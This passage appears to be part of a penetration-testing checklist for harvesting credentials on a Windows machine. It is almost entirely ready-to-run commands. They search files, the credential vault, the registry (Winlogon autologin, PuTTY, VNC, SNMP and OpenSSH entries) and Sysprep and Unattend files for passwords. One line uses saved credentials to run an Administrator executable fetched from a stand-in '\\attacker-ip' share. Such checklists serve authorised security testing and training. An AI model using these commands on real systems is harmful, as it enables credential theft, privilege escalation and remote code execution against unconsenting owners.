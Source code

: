 * [ ] Creds from config files (Try different words e.g: pass, passwd, pwd, user, usr, username, secret, cred, credential, auth):

```
 dir /s /b /p *pass* == *cred* == *vnc* == *.config* == *conf* == *ini*
 findstr /si /m password *.xml *.ini *.txt
```

* [ ] Creds from local DBs
* [ ] Creds from Windows Vault

```
 cmdkey /list
 # if found
 runas /savecred /user:WORKGROUP\Administrator "\\attacker-ip\SHARE\welcome.exe"
```

* [ ] Creds from Registry

```
 reg query HKLM /f pass /t REG_SZ /s
 reg query HKCU /f pass /t REG_SZ /s
 
 reg query HKLM /f password /t REG_SZ /s
 reg query HKCU /f password /t REG_SZ /s
 
 # Windows Autologin
 reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
 reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
  
  # SNMP parameters
 reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
 
 # Putty credentials
 reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
 reg query HKCU\Software\SimonTatham\PuTTY\SshHostKeys\
 
 # VNC credentials
 reg query "HKCU\Software\ORL\WinVNC3\Password"
 reg query "HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4" /v password
 
 ## OpenSSH credentials
 reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys
```

* [ ] Creds from Unattend or Sysprep Files

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattend*.xml
%WINDIR%\Panther\Unattend*.xml
```

* [ ] Creds from Log Files
